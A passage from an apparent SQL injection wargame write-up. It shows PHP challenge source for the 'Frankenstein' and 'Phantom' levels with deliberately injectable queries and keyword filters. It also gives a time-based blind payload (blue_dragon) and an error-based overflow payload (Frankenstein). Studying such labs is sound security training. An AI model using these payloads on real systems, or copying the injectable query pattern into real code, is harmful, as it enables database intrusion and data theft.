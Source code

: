 ```php
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("blue_dragon");
  highlight_file(__FILE__);
?>
```

payload: id=admin\&pw=cc' or if(ord(substr(pw , i, 1)) = j , sleep(2) , 1)-- -

## Frankenstein(error based)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(|\)|union/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_frankenstein where id='frankenstein' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit("error");

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_frankenstein where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("frankenstein");
  highlight_file(__FILE__);
?>
```

payload: ' or case when id="admin" and {pw} like "{j}%" then 9999999999999999999\*9999999999999999999 else 1 end%23

## Phantom(Insert)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect("phantom");

  if($_GET['joinmail']){
    if(preg_match('/duplicate/i', $_GET['joinmail'])) exit("nice try");
    $query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
    mysqli_query($db,$query);
    echo "<hr>query : <strong>{$query}</strong><hr>";
  }

  $rows = mysqli_query($db,"select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
  echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
    while(($result = mysqli_fetch_array($rows))){
    if($result['no'] == 1) $result['email'] = "**************";
    echo "<tr><td>{$result[ip]}</td><td>".htmlentities($result[email])."</td></tr>";
  }
  echo "</table>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_phantom where no=1 and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])){ mysqli_query($db,"delete from prob_phantom where no != 1"); solve("phantom"); }
  highlight_file(__FILE__);
?>
```
